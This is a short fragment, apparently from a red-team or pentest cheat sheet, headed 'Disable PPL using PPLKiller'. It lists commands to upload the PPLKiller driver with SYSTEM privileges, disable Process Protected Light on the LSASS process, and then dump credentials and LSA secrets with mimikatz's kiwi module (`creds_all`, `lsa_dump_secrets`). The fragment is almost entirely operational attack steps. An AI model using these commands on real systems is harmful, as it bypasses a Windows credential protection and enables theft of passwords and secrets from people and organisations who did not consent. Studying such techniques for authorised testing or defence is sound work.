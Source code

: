 ### Disable PPL using PPLKiller

- Make sure the session you are running with has SYSTEM privleges.'
- We need to upload the driver to the path: `C:\Windows\System32\config\systemprofile\AppData\Local\Temp` - The Temp directory might no exist, just create it - `mkdir Temp`.
- Then we will disable PPL: `.\PPLKiller.exe /disablePPL <LSASS PID>`
- Now we can use mimikatz to dump the lsass process: `load kiwi` - `creds_all` - `lsa_dump_secrets`.
